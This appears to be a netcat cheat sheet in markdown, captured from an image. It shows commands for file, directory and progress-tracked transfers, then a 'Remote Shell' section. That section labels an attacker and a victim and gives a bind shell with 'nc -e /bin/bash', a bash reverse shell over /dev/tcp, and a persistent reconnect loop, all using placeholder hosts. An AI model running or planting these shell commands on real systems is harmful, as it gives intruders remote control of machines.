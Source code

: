 ## File Transfer

### Basic File Transfer
```bash
# Receiver
nc -l port > received_file

# Sender
nc hostname port < file_to_send
```

### Directory Transfer
```bash
# Receiver
nc -l port | tar xvf -

# Sender
tar cvf - directory | nc hostname port
```

### With Progress
```bash
# Receiver
nc -l port | pv > received_file

# Sender
pv file_to_send | nc hostname port
```

## Remote Shell

### Basic Shell Access
```bash
# Listener (attacker)
nc -l port -v

# Target (victim)
nc hostname port -e /bin/bash
```

### Reverse Shell
```bash
# Listener
nc -l port -v

# Sender
/bin/bash -i >& /dev/tcp/hostname/port 0>&1
```

### Persistent Connection
```bash
# Listener with reconnect
while true; do nc -l port; done

# Sender with reconnect
while true; do nc hostname port; sleep 1; done
```
